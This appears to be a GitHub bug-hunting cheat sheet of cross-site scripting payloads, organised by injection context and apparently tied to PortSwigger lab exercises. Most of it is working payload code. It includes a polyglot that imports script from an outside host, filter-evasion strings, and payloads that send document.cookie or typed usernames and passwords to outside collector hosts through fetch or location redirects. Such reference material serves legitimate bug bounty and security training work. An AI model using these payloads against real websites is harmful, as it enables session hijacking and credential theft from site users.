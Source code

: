 ## Testing XSS
**One Payload For Testing All Kinds of scenario**
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
**Note**
  1. Check html tag and attribute for reflection.
  2. If < and > symbol reflecting in source code without encoding, XSS possible.
  3. If ' or " symbol reflecting in source code without encoding, XSS possible.

**Testing XSS in every type of scenario**
```js
<script>alert(1337)</script>

><script>alert(1337)</script>

<sCrIpt>alert(1337)</sCripT>

">cyborg71<script>alert(1337)</script>

<svg/ onload=alert(1337)//

<Svg/OnLoad=(confirm)(1337)<!--

<body/OnResize=(confirm)(123456)<!--

<img src=x onerror=alert(1337)>

</script><img src=x onerror=alert(1337)>

<iframe src="javascript:alert(1337)">

';alert(1337)//

${alert(1337)}

<custom-tag onmouseover='alert(1337)'>

/?x=y'%09onclick='alert(1337)'%09accessKey='x'

/?'accesskey='x'onclick='alert(1337)

javascript:alert(1337) (Inject in href attribute)

y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E

"><h1>cyborg.71</h1>

<script onclick="alert(1337)">

<a href="javascript:alert('XSS')">Click me</a>

<img src=https://i.imgflip.com/8uo0t9.jpg>
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
**External source of payloads**

https://github.com/payloadbox/xss-payload-list

**For filter bypass**

https://github.com/terjanq/Tiny-XSS-Payloads

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
```js
<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
**XSS Filter Evasion Cheat Sheet**
<br>
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
## For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
## Angle brackets HTML-encoded bypass
**Reflected XSS into HTML attribute with angle brackets HTML-encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
<br>
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
<br>
<br>
**Reflected XSS into a JavaScript string with angle brackets HTML encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
<br>
<br>
## Reflected XSS into a JavaScript string with single quote and backslash escaped
<br>
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.

```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.

![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
<br>

**Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**

<br>
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
<br>

![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)
<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>

![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
<br>

**Reflected XSS into HTML context with most tags and attributes blocked**

<br>

Bruteforce for getting allowed tags.
<br>

***Check this Portswigger lab for details:*** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked.

```
"><body onresize=alert(1337)>
```
<br>
  
**Reflected XSS into HTML context with all tags blocked except custom ones**

<br>

**Key Note**

```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
  
## Reflected XSS with some SVG markup allowed

```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
  
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.
<br>

![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X
